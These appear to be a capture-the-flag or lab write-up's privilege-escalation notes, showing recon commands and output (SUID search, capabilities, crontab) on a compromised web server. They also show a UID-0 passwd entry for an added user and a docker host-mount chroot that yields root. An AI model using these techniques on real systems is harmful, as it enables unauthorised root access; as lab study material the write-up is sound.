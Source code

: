 
I think now we got the shell of this box let's do some recon and see what we can do
![[Pasted image 20240818125838.png]]


```
c43l:$6$Zs4KmlUsMiwVLy2y$V8S5G3q7tpBMZip8Iv/H6i5ctHVFf6.fS.HXBw9Kyv96Qbc2ZHzHlYHkaHm8A5toyMA3J53JU.dc6ZCjRxhjV1:0:0:root:/root:/bin/bash
```


```
www-data@ip-10-201-11-33:/var/www$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/bin/umount
/usr/bin/docker
/usr/bin/fusermount
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/su
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/at
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/mount
/usr/bin/chsh
```


```
www-data@ip-10-201-11-33:/var/www$ env
env
PWD=/var/www
APACHE_LOG_DIR=/var/log/apache2
LANG=C
INVOCATION_ID=2806c7ef0c06427c965da7c8024dbae2
APACHE_PID_FILE=/var/run/apache2/apache2.pid
TERM=xterm
term=xterm
APACHE_RUN_GROUP=www-data
APACHE_LOCK_DIR=/var/lock/apache2
SHLVL=3
LC_CTYPE=C.UTF-8
APACHE_RUN_DIR=/var/run/apache2
JOURNAL_STREAM=9:23813
APACHE_RUN_USER=www-data
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
OLDPWD=/var/www/html
_=/usr/bin/env
```


```
www-data@ip-10-201-11-33:/var/www$ getcap -r / 2>/dev/null
getcap -r / 2>/dev/null
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/ping = cap_net_raw+ep
www-data@ip-10-201-11-33:/var/www$ 
```


```
www-data@ip-10-201-11-33:/var/www$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
```

## So it's time to get privilege escalation escalation

Docker
```
docker run -v /:/mnt --rm -it cb1b741122e8 chroot /mnt sh
```

![[Pasted image 20240818160415.png]]

We got the root access but the wrong once so will again access the right docker (i.e. ubuntu 18.04)
```
docker run -v /:/mnt --rm -it 56def654ec22 chroot /mnt sh
```

I was not able to find the root flag so we have repository name with ubuntu 18.04

